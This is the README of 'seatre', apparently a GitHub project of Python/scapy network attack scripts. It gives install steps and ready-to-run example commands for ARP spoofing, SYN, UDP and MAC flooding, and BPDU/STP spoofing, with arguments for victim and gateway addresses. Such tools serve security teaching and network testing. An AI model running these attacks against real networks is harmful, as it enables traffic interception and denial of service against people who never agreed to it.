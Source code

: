# seatre

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)
[![GitHub license](https://img.shields.io/github/license/nadzyah/seatre?style=for-the-badge)](https://github.com/nadzyah/seatre/blob/main/LICENSE)

A collection of scripts that implement different network attacks. **For informational purposes only.** 

Any contributor to this project doesn't take any responsibility for illegal usage of any script from this project.

# Installation and Usage

The tested environment:
* Python v3.10
* Ubuntu 22.04 LTS

Make sure that `python3-scapy` is installed on your system: `sudo apt-get install python3-scapy`

You can either run `app.py` from a checkout of the code, or install it like any other python project. Keep in mind that a lot of scripts here can be executed only with the root privileges, so you need to run it with sudo.

```bash
$ sudo pip3 install seatre
$ sudo seatre
usage: seatre [-h] [--debug] {attack} ...
```

To enter the debug mode, use the `--debug` option after the `seatre` command.

To get the attack description in the terminal, enter `seatre <attack> --desc`


# Implemented Attacks

The following commands include the `--debug` option, which is not required to execute an attack.

## ARP Spoofing

You can read about ARP spoofing attack [here](https://www.wikiwand.com/en/ARP_spoofing).

Example usage:

```bash
$ sudo seatre --debug arpspoof -i wlp2s0 -m aa:aa:aa:aa:aa:aa -gm BB-BB-BB-BB-BB-BB -gip 192.168.0.1 -vm cc:cc:cc:cc:cc:cc -vip 192.168.0.108
```

where:

* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — the interface MAC-address (can be written as `AA:AA:AA:AA:AA:AA`, `AA-AA-AA-AA-AA-AA` and `aa-aa-aa-aa-aa-aa`)
* `bb:bb:bb:bb:bb:bb` — the gateway's MAC-address
* `192.168.0.1` — the gateway's IP-address
* `cc:cc:cc:cc:cc:cc` — the victim's MAC-address
* `192.168.0.108` — the victim's IP-address

Run `sudo seatre arpspoof --help` to get more information.

## SYN Flood

You can read about SYN flood attack [here](https://www.wikiwand.com/en/SYN_flood).

Example usage:

```bash
$ sudo seatre --debug synflood -d 172.17.17.10 -p 443 -c 1000
```
where:

* `172.17.17.10` — server's IP-address
* `443` — server's port
* `1000` — the number of packets to be sent

Run `sudo seatre synflood --help` to get more information.

## UDP Flood

You can read about UDP flood attack [here](https://www.wikiwand.com/en/UDP_flood).

Example usage:

```bash
$ sudo seatre --debug udpflood -d 172.17.17.10 -p 53 -c 1000
```

where:

* `172.17.17.10` — server's IP-address
* `53` — server's port
* `1000` — the number of packets to be sent

Run `sudo seatre udpflood --help` to get more information.

## MAC Flood

You can read about MAC flood attack [here](https://www.wikiwand.com/en/MAC_flooding).

Example usage:

```bash
$ sudo seatre --debug macflood -i wlp2s0 -vm "aa:aa:aa:aa:aa:aa" -c 100000
```

where:

* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — the victim's MAC-address (can be written as `AA:AA:AA:AA:AA:AA`, `AA-AA-AA-AA-AA-AA` and `aa-aa-aa-aa-aa-aa`)
* `100000` — the number of packets to be sent

Run `sudo seatre macflood --help` to get more information.

## BPDU Spoofing

On a Layer 2 network, switches running STP, RSTP, MSTP, or VBST exchange BPDUs to calculate a spanning tree and trim the network into a loop-free tree topology. If forged BPDUs are sent to attack a device with edge ports and received by them, the device will automatically change the edge ports to non-edge ports and recalculate the spanning tree. If the bridge priority in the BPDUs sent by an attacker is higher than the priority of the root bridge, the network topology will change, thereby interrupting service traffic.

Example usage:

```bash
sudo seatre --debug stpspoof -i wlp2s0 -smac "aa:aa:aa:aa:aa:aa" -dmac "bb:bb:bb:bb:bb:bb" -p 4096
```

* `wlp2s0` — your network interface
* `aa:aa:aa:aa:aa:aa` — your MAC-address
* `bb:bb:bb:bb:bb:bb` — victim switch's MAC-address
* `4096` — priority for choosing the root switch (the lower the number, the higher the priority, so make sure it's low enough to become the root). Must be divisible by 4096
